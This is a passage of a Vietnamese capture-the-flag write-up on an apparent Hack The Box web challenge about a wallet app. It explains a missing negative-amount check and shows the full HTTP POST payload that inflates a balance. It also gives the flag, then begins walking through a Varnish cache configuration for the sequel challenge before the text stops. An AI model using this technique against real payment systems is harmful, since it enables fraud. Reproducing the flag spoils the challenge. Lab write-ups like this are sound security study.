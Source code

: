 ![Điều kiện để in ra flag](https://i.imgur.com/JjMDTjC.png)

- Khi `balance` của account lớn hơn 1337 và username khác `icarus` thì sẽ nhận được flag.

Về address của người nhận là giá trị hash md5 của username, ở trong file `database.js` thấy được có 1 username được insert sẵn, address là `1ea8b3ac0640e44c27b3cb8a258a87f8`.

Chú ý thì thấy ở đây khi `amount` được nhập từ người dùng thì sẽ không check số âm. Vậy nếu chúng ta nhập số âm thì chuyện gì sẽ xảy ra?
- Khi update balance của người chuyển sẽ lấy `balance` hiện tại mà username có trừ đi `amount`.
=> Nếu nhập `amount` là -1 thì phép toán thực hiện sẽ là `balance - -1` sẽ khiến `balance` của account tăng lên chứ không bị giảm đi.

### Payload
```
POST /api/transactions/create HTTP/1.1
Host: localhost:1337
Content-Type: application/x-www-form-urlencoded
Cookie: session=REDACTED
Content-Length: 64

amount=-99999&receiver=1ea8b3ac0640e44c27b3cb8a258a87f8&note=abc
```
**Flag**: `HTB{fl3w_t00_cl0s3_t0_th3_d3cept10n}`

### Genesis Wallet's Revenge - Intended solution
Chúng ta cùng kiểm tra từng phần nhỏ của file `cache.vcl` dùng làm file config để hiểu kĩ hơn.
#### cache.vcl
```
vcl 4.1;
```
Mỗi file có đuôi .vcl đều phải bắt đầu bằng việc khai báo version của cú pháp Varnish sẽ sử dụng, ở đây là `4.1`.

```
backend default {
    .host = "127.0.0.1";
    .port = "1337";
}
```
Khai báo thông tin của backend server, ở đây là service Nodejs đang chạy tại địa chỉ `127.0.0.1` với port là `1337`.
```
sub vcl_hash {
    hash_data(req.url);

    if (req.http.host) {
        hash_data(req.http.host);
    } else {
        hash_data(server.ip);
    }

    return (lookup);
}
```
Subroutine `vcl_hash` chỉ định input nào sẽ đóng vai trò làm cache index để so sánh và trả về dữ liệu đã cache trước đó. Cụ thể thì Varnish sẽ dựa vào `req.url`, `req.http.host` (`Host` header) và `server.ip` làm cache index. Đây cũng là cấu hình mặc định của Varnish.
```
sub vcl_recv {
    # Only allow caching for GET and HEAD requests
    if (req.method != "GET" && req.method != "HEAD") {
        return (pass);
    }
    # get javascript and css from cache
    if (req.url ~ "(\.(js|css|map)$|\.(js|css)\?version|\.(js|css)\?t)") {
```